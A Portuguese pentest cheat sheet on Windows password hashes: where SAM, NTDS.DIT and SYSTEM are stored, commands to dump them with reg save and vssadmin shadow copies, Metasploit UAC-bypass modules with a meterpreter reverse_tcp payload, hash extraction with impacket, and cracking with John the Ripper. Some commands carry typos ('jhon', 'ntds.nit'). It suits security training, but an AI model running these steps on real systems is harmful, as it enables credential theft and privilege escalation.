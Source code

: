 # Windows Hashes

## Padrão de Hash do Windows

``<Username>:<User ID>:<LM hash>:<NT hash>:<Comment>:<Home Dir>:``

LM Hash vazio: aad3b435b51404eeaad3b435b51404ee

## Obtendo hashes de senhas do Windows

Nos sistemas Windows são utilizados até 3 arquivos para armazenamento e manipulação dos usuários e senhas dependendo da versão do sistema operacional. Os arquivos são:

**SAM - Security Account Manager** *(Windows XP/Vista/7/8/10)*
- Armazena as contas de usuários
- %SystemRoot/system32/config/sam

**NTDS.DIT** *(Windows Server)*
- Armazena os dados do AD incluindo as contas de usuários
- %SystemRoot/ntds/ntds.dit

**SYSTEM** *(Windows Server/XP/Vista/7/8/10)*
- Arquivo necessário para decriptar o SAM/NTDS.DIT
- %SystemRoot/system32/config/system

Todos esses arquivos são bloqueados pelo sistema enquanto o mesmo estiver em execução, abaixo algumas técnicas para burlar essa proteção.

**Windows XP**

Essa técnica funciona apenas em versões antigas do Windows. Verifique se existe o diretório *%SystemRoot%/Windows/repair* onde existe uma cópia do sistema operacional e faça a busca pelos arquivos **sam** e **system**.

A desvantagem de utilizar os arquivos da pasta *repair* é que pode ocorrer do arquivo sam estar desatualizado, não retornando todos os usuários atuais do sistema.

**Windows XP/Vista/7/8/10**

Para baixar os arquivos **sam** e **system** através do registro do Windows, utilize os *comandos abaixo direto no terminal da máquina alvo:

``reg save hklm\sam samOK``
``reg save hklm\system systemOK``

Esse método consegue retornar o arquivo sam com todos os usuários atuais do sistema.

**Necessário permissões para executar comandos como administrador*

**Windows Server/7/8/10**

Em versões mais modernas do Windows assim como em versões do Windows Server, podemos utilizar a ferramenta ``vssadmin`` para criar uma cópia (shadow) do sistema operacional e fazer o download dos arquivos **sam**, **ntds.dit** e **system**.

Verificar os volumes do sistema operacional
``vssadmin list volumes``

Montar uma cópia do volume alvo
``vssadmin create shadow /for=c:``

Copiar os arquivos da cópia para o disco local
``copy \\?\VOLUME_COPIA\windows\ntds\ntds.nit C:\ntds.nit``
``copy \\?\VOLUME_COPIA\windows\system32\config\sam C:\sam``
``copy \\?\VOLUME_COPIA\windows\system32\config\system C:\system``

## Bypass UAC (Executar como Administrador)

**Enviar solicitação ao usuário - Meterpreter**

Inicie uma sessão com a máquina alvo através do metasploit e deixe em segundo plano com o comando ``background``. Para visualizar as sessões ativas utilize ``sessions``.

Selecione o módulo **exploit/windows/local/ask** e com o comando ``set SESSION 1`` defina que o módulo será executado na sessão que está em background.

Execute o módulo com o comando ``run``, dessa forma será enviada uma mensagem para a máquina alvo solicitando a execução como administrador.

**Nova sessão como administrador - Meterpreter**

Nessa técnica vamos utilizar dois módulos, o primeiro é um exploit que irá realizar o bypass no UAC e o segundo é o payload que será executado para nos retornar outra shell, mas dessa vez como administrador.

Inicie uma sessão com a máquina alvo através do metasploit e deixe em segundo plano com o comando ``background``. Para visualizar as sessões ativas utilize ``sessions``.

Selecione o módulo **exploit/windows/local/bypassuac_fodhelper**. Faça a configuração do target de acordo com o alvo e selecione a sessão que está em background com o comando ``set SESSION 1``.

Agora definimos o payload com ``set payload windows/x64/meterpreter/reverse_tcp`` e faça a configuração padrão.

Execute o comando ``exploit`` e aguarde o inicio de uma nova sessão com os privilégios de administrador.

## Visualizar Hashes

Para visualizar os hashes que estão nos arquivos sam e ntds.dit utilize uma das opções:

**Windows 2k/NT/XP/Vista**

``samdump2 SYSTEM SAM``

**Windows 2k/NT/XP/Vista/7/8/10/Server**

``impacket-secretdump -sam SAM -system SYSTEM LOCAL``

**Windows Server**

``impacket-secretdump -ntds ntds.dit -system SYSTEM LOCAL``

## Quebra de Hashes

Para realizar a quebra dos hashes podemos utilizar a ferramenta john The Ripper.

**Quebra de Hash sem LM** *(aad3b435b51404eeaad3b435b51404ee)***:**
``jhon --format=nt hash``

**Quebra de Hash com LM:**
``jhon --format=lm hash``
